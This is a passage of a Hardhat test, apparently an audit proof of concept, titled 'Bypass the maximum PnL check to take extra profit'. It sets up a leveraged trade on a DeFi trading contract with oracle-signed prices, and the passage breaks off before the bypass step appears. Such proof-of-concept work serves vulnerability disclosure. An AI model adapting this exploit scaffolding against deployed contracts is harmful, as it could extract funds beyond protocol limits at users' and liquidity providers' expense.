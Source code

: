         const BadStableVault = await ethers.getContractFactory("BadStableVault");
        badstablevault = await BadStableVault.deploy(StableToken.address);
    
        const ChainlinkContract = await ethers.getContractFactory("MockChainlinkFeed");
        chainlink = await ChainlinkContract.deploy();
    
        TradingLibrary = await deployments.get("TradingLibrary");
        tradinglibrary = await ethers.getContractAt("TradingLibrary", TradingLibrary.address);
        await trading.connect(owner).setLimitOrderPriceRange(1e10);
      });
    
    
      describe("Bypass the maximum PnL check to take extra profit", function () {
        let orderId;
        let closePriceData;
        let closeSig;
        let initPrice = parseEther("1000");
        let closePrice = parseEther("2000");
        beforeEach(async function () {
          let maxWin = await trading.maxWinPercent();
          expect(maxWin.eq(5e10)).to.equal(true);
    
          let TradeInfo = [parseEther("1000"), MockDAI.address, StableVault.address, parseEther("10"), 1, true, parseEther("0"), parseEther("0"), ethers.constants.HashZero];
          let PriceData = [node.address, 1, initPrice, 0, 2000000000, false];
          let message = ethers.utils.keccak256(
            ethers.utils.defaultAbiCoder.encode(
              ['address', 'uint256', 'uint256', 'uint256', 'uint256', 'bool'],
              [node.address, 1, initPrice, 0, 2000000000, false]
            )
          );
          let sig = await node.signMessage(
            Buffer.from(message.substring(2), 'hex')
          );
          
          let PermitData = [permitSig.deadline, ethers.constants.MaxUint256, permitSig.v, permitSig.r, permitSig.s, true];
          orderId = await position.getCount();
          await trading.connect(owner).initiateMarketOrder(TradeInfo, PriceData, sig, PermitData, owner.address);
          expect(await position.assetOpenPositionsLength(1)).to.equal(1);
          let trade = await position.trades(orderId);
          let marginAfterFee = trade.margin;
          expect(marginAfterFee.eq(parseEther('990'))).to.equal(true);
    
          // Some time later
          await network.provider.send("evm_setNextBlockTimestamp", [2000001000]);
          await network.provider.send("evm_mine");
          
          // Now the price is doubled, profit = margin * leverage = $990 * 10 = $9900
          closePriceData = [node.address, 1, closePrice, 0, 2000001000, false];
          let closeMessage = ethers.utils.keccak256(
            ethers.utils.defaultAbiCoder.encode(
              ['address', 'uint256', 'uint256', 'uint256', 'uint256', 'bool'],
              [node.address, 1, closePrice, 0, 2000001000, false]
            )
          );
          closeSig = await node.signMessage(
            Buffer.from(closeMessage.substring(2), 'hex')
          );
    
